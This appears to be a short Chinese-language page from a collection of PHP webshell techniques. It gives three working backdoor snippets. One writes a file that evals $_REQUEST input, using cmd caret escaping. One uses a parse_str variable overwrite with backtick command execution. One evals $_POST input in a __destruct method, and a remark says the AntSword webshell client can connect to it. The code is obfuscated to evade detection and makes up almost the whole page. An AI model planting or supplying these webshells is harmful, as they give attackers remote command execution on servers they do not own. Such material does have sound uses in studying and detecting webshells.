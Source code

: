 ```php
<?php
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```
> Windows cmd  ^ 转义符

`echo "<Hellow>" >1.txt"写成 echo ^<Hello^> > 1.txt`  让`<>`失效。



---

**parse_str 变量**
```php
<?php
$a=1;
$b="a=".@$_GET['a'];
parse_str($b);
print_r(`$a`)
?>
```
![](img/3.png)

---

**__destruct 析构函数(魔术方法)**
```php

<?php 
class User
{
  public $name = '';
 
  function __destruct(){
    eval("$this->name");
  }
}
 
$user = new User;
$user->name = ''.$_POST['shell'];
?>
```
> 可使用蚁剑连接
